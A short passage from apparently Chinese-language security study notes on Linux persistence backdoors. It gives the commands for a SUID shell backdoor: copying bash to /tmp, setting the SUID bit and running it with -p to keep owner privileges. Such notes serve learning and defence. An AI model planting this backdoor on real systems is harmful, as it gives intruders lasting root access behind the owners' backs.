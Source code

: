   ![Alt text](../../cyber_security/images/image114.png)
  - 且服务启动过程中，无法删除


#### Linux权限维持-后门
- SUID Shell
  - SUID SHELL是一种可用于以拥有者权限运行的shell
  ```
  cp /bin/bash /tmp/shell
  chmod u+s /tmp/shell
  ```
  ![Alt text](../../cyber_security/images/image115.png)
  - 使用普通用户权限执行
  ```
  /tmp/shell -p
  ```